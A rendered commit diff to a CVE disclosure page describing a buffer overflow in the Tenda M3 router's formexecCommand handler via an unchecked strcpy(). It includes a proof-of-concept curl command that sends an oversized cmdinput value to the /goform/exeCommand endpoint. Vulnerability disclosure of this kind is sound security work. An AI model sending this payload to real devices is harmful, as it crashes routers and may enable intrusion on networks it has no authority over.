

Before and after one commit to dwBruijn/CVEs, a Markdown page: Tenda/execCommand.md, the part around the change. Drawn GitHub-style; pictures changed too: resources/imgs/Tenda/execCommandFn.png (added); blank space fills up the shorter version.

Commit message:
Tenda M3 execCommand

````diff
--- a/Tenda/execCommand.md
+++ b/Tenda/execCommand.md
@@ -25,10 +25,14 @@ The **formexecCommand** handler is vulnerable to buffer overflow due to the comp
 
 ## PoC
 
+The vulnerability is in the `strcpy()` call with no bounds checking.
+
+![Vulnerable Function](../resources/imgs/Tenda/execCommandFn.png)
+
 Send a POST request to the `/goform/execCommand` endpoint to trigger the buffer overflow
 
 ```
 curl -X POST http://172.16.182.130/goform/exeCommand   -d "cmdinput=$(python3 -c 'print("A"*600)')"
 ```
 
-![PoC](../resources/imgs/Tenda/execCommand.png)
+![PoC](../resources/imgs/Tenda/execCommandPoC.png)
````
Also changed, not shown: resources/imgs/Tenda/execCommandPoC.png (renamed from resources/imgs/Tenda/execCommand.png).
